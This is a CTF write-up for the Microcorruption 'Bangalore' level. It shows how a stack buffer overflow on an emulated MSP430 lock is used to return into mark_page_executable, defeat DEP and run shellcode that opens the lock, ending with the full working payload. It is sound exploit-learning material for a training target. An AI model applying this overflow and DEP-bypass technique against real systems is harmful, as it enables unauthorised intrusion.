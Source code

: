 ```yaml
---
title: "Microcorruption Bangalore Writeup"
categories: CTF
comments: true
---
```


This level introduces the concept of DEP, or Data Execution Prevention. You can read a lot about DEP elsewhere, but the gist of it is in the name -- it prevents instructions from being executed in certain areas of memory. So simply injecting and running your favorite shellcode will no longer work, if that area of memory is marked as non-executable. We will have to find a way around DEP. Let's check the Lock Manual for the specifics.

Under the interrupts, we can see that `INT 0x10` without any arguments turns on DEP. There doesn't appear to be a way to turn it off. `INT 0x11` marks a page as either only executable, or only writeable. It takes two arguments, the first argument being the page number, the second being 1 if writeable, 0 if executable. Okay, that sound pretty straightforward.

The executable is pretty short and easy to read compared to previous levels. `set_up_protection` is called, which marks pages as writeable or executable, and then turns on DEP.

```asm
44e0:  0f43           clr	r15
44e2:  b012 b444      call	#0x44b4 <mark_page_executable>
```

The very first page (0x00) is marked executable. This makes sense, since address 0x10 has a callgate causing the software interrupt that must be executable.

```nasm
44e6:  1b43           mov	#0x1, r11
44e8:  0f4b           mov	r11, r15
44ea:  b012 9c44      call	#0x449c <mark_page_writable>
44ee:  1b53           inc	r11
44f0:  3b90 4400      cmp	#0x44, r11
44f4:  f923           jne	#0x44e8 <set_up_protection+0xa>
```

This next section marks the next 0x43 pages as writeable. Since the base of the executable is at address 0x4400, we can probably safely assume the page size is 256 bytes for the MSP430. The remaining pages are all marked as executable.

Strangely, looking at `main`, `login` and `conditional_unlock_door`, the password doesn't appear to be read or validated anywhere. Nowhere is INT 0x7E called. So this lock doesn't appear open at all. Executing shellcode is probably the only way past this level.

```
4526:  3e40 3000      mov	#0x30, r14
452a:  0f41           mov	sp, r15
452c:  b012 6244      call	#0x4462 <getsn>
4530:  3f40 6524      mov	#0x2465, r15
4534:  b012 7a44      call	#0x447a <puts>
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret
```

Breaking on this section shows us that we've got a buffer overflow of size 0x20 (0x30 - 0x10) on the stack, the first word of which is the return address, at 0x3ffe.

Let's try executing some shellcode. We enter the following password:

```
41414141414141414141414141414141 | ee3f
```

This overwrites the `login` return address to 0x3fee, which is the start of our buffer. After entering it, and trying to execute 0x4141, you'll get the following message:

```
Segmentation Fault: can not execute write-only page.
```

That is DEP at work. The page containing our buffer is marked as non-executable. So we can't jump directly into our controlled buffer to execute shellcode. We have to mark our buffer as executable first. How do we do that? First we look at `mark_page_executable`. It takes its arguments from registers r14 and r15.

```
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
```

It pushes 0x0 and the page number in r14 to the stack, and then calls the interrupt, with 0x9100 in the status register, sr (you'll remember 0x11 was the interrupt to mark a page writeable or executable. It's been ANDed with 0x8000. It appears that the most significant bit is some kind of flag). Since we control the stack, we can simply place 0x0 and our page number of choice on the stack, and skip to 0x44ba (we could also skip to 0x44bc, but it would change the alignment for the two interrupt arguments on the stack by 0x6).

So which page do we set to executable? Our buffer spans page 0x3f and 0x40. The shellcode to open the lock is quite small. So in the interest of keeping the entered password short, let's mark page 0x3f as executable.

Let's construct our input to bypass DEP:

```
41414141414141414141414141414141 | ba44 | 3f00 0000 | ee3f
```

The 16 dummy bytes are the password buffer. The next word is the `login` return address. We overwrite this in with 0x44ba in order to jump to the middle of `mark_page_executable`. The next two words are the arguments to the interrupt -- 0x003f is the page number, 0x0000 designates it as executable. The next word is the `mark_page_executable` return address. We overwrite it with 0x3fee in order to return to our buffer.

If you try this, you'll note there is no segfault, the next (garbage) instruction 0x4141 is executed. Success! That means the first part of our buffer is now executable. You may have noticed that the sixth word of our buffer was overwritten with 0x44c6. This was the return address for the interrupt. So that limits our shellcode to 5 words. If we need more, we can simply jump to after the return address, and place our shellcode there.

Now that everything is in place, we need to write the shellcode to open the lock. This is done by triggering `INT 0x7F`. So let's write the instructions to do that.

```
mov       #0xff00, sr
call      #0x10
```

0xff00 is the result of 0x8000 AND 0x7f00. The rest is straightforward. The instructions can be translated into machine code by using the assembler on the site, referencing the MSP430 instruction set, or simply looking for similar instructions in the executable.

Putting it all together, we get the following input that opens the lock.

```
3240 00ff b012 1000 4141 4141 4141 4141 ba44 3f00 0000 ee3f
```
